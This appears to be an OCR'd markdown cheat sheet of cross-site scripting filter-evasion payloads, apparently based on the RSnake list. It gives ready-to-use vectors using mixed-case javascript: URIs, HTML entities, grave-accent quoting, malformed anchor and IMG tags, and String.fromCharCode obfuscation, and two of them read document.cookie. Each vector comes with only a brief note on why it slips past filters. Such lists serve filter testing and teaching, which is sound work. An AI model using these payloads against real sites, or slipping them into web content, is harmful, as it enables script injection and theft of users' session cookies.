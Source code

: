 ## Case Insensitive XSS Attack Vector
```js
<IMG SRC=JaVaScRiPt:alert('XSS')>
```

---

## HTML Entities
The semicolons are required for this to work:
```js
<IMG SRC=javascript:alert(&quot;XSS&quot;)>
```


## Grave Accent Obfuscation
If you need to use both double and single quotes you can use a grave accent to encapsulate the JavaScript string - this is also useful because lots of cross site scripting filters don’t know about grave accents:

```js
<IMG SRC=`javascript:alert("RSnake says, 'XSS'")`>
```

## Malformed A Tags
Skip the HREF attribute and get to the meat of the XXS

```js
\< a onmouseover="alert(document.cookie)" \> xxs link \< /a \>
```
or Chrome loves to replace missing quotes
- if you ever get stuck just leave them off
- Chrome will put them in the right place and fix your missing quotes on a URL or script.

```js
\<a onmouseover=alert(document.cookie)\>xxs link\</a\>
```

## Malformed IMG Tags
- cleaned up and shortened to work in all browsers
- this XSS vector uses the relaxed rendering engine to create our XSS vector within an IMG tag that should be encapsulated within quotes. I assume this was originally meant to correct sloppy coding. This would make it significantly more difficult to correctly parse apart an HTML tags:

```js
<IMG """><SCRIPT>alert("XSS")</SCRIPT>"\>
```

## fromCharCode
- If no quotes of any kind are allowed
- you can `eval() a fromCharCode` in JavaScript to create any XSS vector you need:

```js
<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>
```
